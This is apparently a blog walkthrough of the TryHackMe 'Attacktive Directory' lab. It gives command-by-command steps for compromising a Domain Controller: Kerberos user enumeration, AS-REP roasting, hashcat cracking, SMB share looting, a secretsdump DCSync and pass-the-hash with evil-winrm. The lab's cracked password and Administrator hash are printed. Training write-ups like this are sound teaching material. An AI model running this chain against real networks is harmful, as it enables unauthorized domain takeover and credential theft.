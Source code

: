 ```yaml
---
title: "Attacktive Directory"
date: 2022-03-05 08:00:00 -0400
categories: [red-team]
tags: [red-team,thm]
image:
    path: /assets/img/posts/attacktivedirectory/thumbnail.jpg
--- 
```


<style>
  .body {
    display:block;
  }
</style>

## Attacktive Directory

In this room we will be using the following tools to compromise a Domain Controller (DC) in order to gain access to the crown jewels of the environment:

**Tools Used:** Nmap, Kerbrute, Impacket, Enum4Linux, Hashcat, SMBClient, and Secretsdump

TryHackMe Link: https://tryhackme.com/room/attackivedirectory

We will begin with an nmap scan to see what ports are open on the host and what services they are running.
```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ nmap -sC -Pn -sV 10.10.121.181
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image1.png" alt=""></p>

Next in our steps to enumerating our host for ports 139/445 we will use the tool enum4linux in order to get very useful information on the domain. For this room we will need to locate the domain name from the output of the tool. Part of the output of this command will give you the answer to the NetBIOS-Domain Name which is THM-AD.
```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ enum4linux -a 10.10.121.181
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image2.png" alt=""></p>

The invalid domain that is typically seen in the Active Directory (AD) domain environments is .local. 

Next we will want to enumerate for valid usernames using the tool userenum.  In order to run this tool we will need to install the tool kerbrute.  To do this we will do the following steps which will require that pip3 and git be installed:

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ git clone https://github.com/tarlogicsecurity/kerbrute 
Cloning into 'kerbrute' ... 
$ cd kerbrute 
$ pip3 install -r requirements
```

Using the command python3 kerbrute -h we are able to get all the options that this tool has to offer:

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ python3 kerbrute.py
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image6.png" alt=""></p>


But first we will need the users and password lists that were provided.  To get these we will use the wget command in order to download both the Users List and the Password List

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image7.png" alt=""></p>

Next, the command that will be used to enumerate valid username is userenum, however the tool does user enumeration by default using the following command:

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image8.png" alt=""></p>

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ python3 kerbrute.py -dc-ip 10.10.7.82 -domain spookysec.local -users userlist.txt
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image9.png" alt=""></p>


After running the command you should notice two accounts that are the answer to the next two questions for notable accounts; svc-admin and backup.

The account svc-admin returned “[NOT PREAUTH]” which means we could potentially query a ticket with this account with no password.

In order to request a ticket we will use the impacket tool GetNPUsers.py.  This python 3 file will be located in /usr/share/doc/python3-impacket/examples by default.  The syntax for the command to request the ticket from the AD server is:

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ python3 GetNPUsers.py spookysec.local/svc-admin -no-pass -dc-ip 10.10.121.181
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image10.png" alt=""></p>


You will want to copy and paste the hash into a file for further reference. When navigating to the Hashcat Examples Wiki we see the the Kerberos hash we captured for svc-admin is Kerberos 5 AS-REP etype 23.

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image11.png" alt=""></p>

As shown above in the screenshot from the wiki, the mode that will be used in hashcat is 18200. To crack the password we will use the following command with hashcat:

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ hashcat svc-admin-hash.txt -a 0 -m 18200 -O passwordlist.txt –force
hashcat (v6.2.5) starting
```

From the output of the hashcat tool we have discovered the the password for the svc-admin account is management2005

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image13.png" alt=""></p>

Next we want to enumerate SMB since we noticed that port 139 was open on our original nmap scan of the server.   This can be done by using the tool smbclient and using the option -L to list the shares using the credentials we just cracked.

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ smbclient -L \\\\10.10.121.181 -U 'spookysec.local/svc-admin'
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image14.png" alt=""></p>

There are a total of 6 remote shares that the server lists.  We will need to connect to each share to see which one(s) we have access to.  For this machine we have access to the backup share where the file backup_credentials.txt is stored.  We will use the get command to pull this file off the smb share.


```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ smbclient \\\\10.10.121.181\\backup -U 'spookysec.local/svc-admin'
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image15.png" alt=""></p>

When we cat the file we get the contents of the backup_credentials.txt

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image16.png" alt=""></p>

To decode this we will use the command line tool to convert from base64 using the following command

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image17.png" alt=""></p>

The backup account has AD permission that allows all AD changes to be synced with this user account.  We can use the tool secresdump.py to retrieve all password hashes in the AD forest environment. 

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ python3 secretsdump.py -just-dc-ntlm spookysec.local/backup@10.10.121.181
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image18.png" alt=""></p>

We were able to dump the credentials of the domain users using the DRSUAPI method.  The NTLM hash of the Administrator account is 0e0363213e37b94221497260b0bcb4fc. In order to use these credentials on the system we can attempt to use Pass the Hash.  This means that instead of authentication with a password we can authenticate with the hash of the password.  We will do this by using the tool Evil-WinRM where the option -H allows us to insert the hash of the administrator account.

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ evil-winrm -i 10.10.121.181 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image19.png" alt=""></p>

At this point we fully own this box and have administrator on the DC.  To get the flags for svc-admin, backup, and Administrator use commands within the evil-winrm shell to find them.

The Administrator account will have the file root.txt. 

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image20.png" alt=""></p>

The backup account will have the file PrivEsc.txt

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image21.png" alt=""></p>

The svc-admin account will have the file user.txt.txt

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image22.png" alt=""></p>

If you have made it this far successfully then congrats you have successfully compromised a Domain Controller (DC) and have the crown jewels of the Windows enterprise environment.
